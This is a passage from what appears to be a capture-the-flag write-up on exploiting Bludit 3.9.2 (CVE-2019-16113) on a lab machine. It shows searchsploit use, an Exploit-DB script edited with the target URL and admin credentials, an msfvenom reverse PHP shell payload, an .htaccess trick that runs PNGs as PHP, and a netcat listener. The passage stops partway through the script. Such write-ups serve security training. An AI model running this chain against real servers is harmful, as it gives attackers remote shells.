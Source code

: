 ## Phase 3: Getting a shell

Credentials in hand, its time to attempt to escalate this to a shell. There are multiple post-auth RCE exploits available to choose from. I like python and there is one python RCE exploit in the list, so I used that one.

```bash
$ ssp bludit
...
Bludit 3.9.2 - Directory Traversal                             | multiple/webapps/48701.txt
$ ssp -m multiple/webapps/48701.txt
$ mv 48701.txt rce.py
```

Inspecting the code it looks like there are some variables to edit, and some prep work to be done to generate the two payloads. The following script includes the edits I made to the static variables to work for this scenario.

```python
# Title: Bludit 3.9.2 - Directory Traversal
# Author: James Green
# Date: 2020-07-20
# Vendor Homepage: https://www.bludit.com
# Software Link: https://github.com/bludit/bludit
# Version: 3.9.2
# Tested on: Linux Ubuntu 19.10 Eoan
# CVE: CVE-2019-16113
# 
# Special Thanks to Ali Faraj (@InfoSecAli) and authors of MSF Module https://www.exploit-db.com/exploits/47699

#### USAGE ####
# 1. Create payloads: .png with PHP payload and the .htaccess to treat .pngs like PHP
# 2. Change hardcoded values: URL is your target webapp, username and password is admin creds to get to the admin dir
# 3. Run the exploit
# 4. Start a listener to match your payload: `nc -nlvp 53`, meterpreter multi handler, etc
# 5. Visit your target web app and open the evil picture: visit url + /bl-content/tmp/temp/evil.png

#!/usr/bin/env python3

import requests
import re
import argparse
import random
import string
import base64
from requests.exceptions import Timeout

url = 'http://10.10.10.191'  # CHANGE ME
username = 'fergus'  # CHANGE ME
password = 'RolandDeschain'  # CHANGE ME

# msfvenom -p php/reverse_php LHOST=127.0.0.1 LPORT=53 -f raw -b '"' > evil.png
# echo -e "<?php $(cat evil.png)" > evil.png 
payload = 'shell.png'  # CREATE ME

# echo "RewriteEngine off" > .htaccess
# echo "AddType application/x-httpd-php .png" >> .htaccess
payload2 = '.htaccess'  # CREATE ME

def login(url,username,password):
    """ Log in with provided admin creds, grab the cookie once authenticated """

    session = requests.Session()
```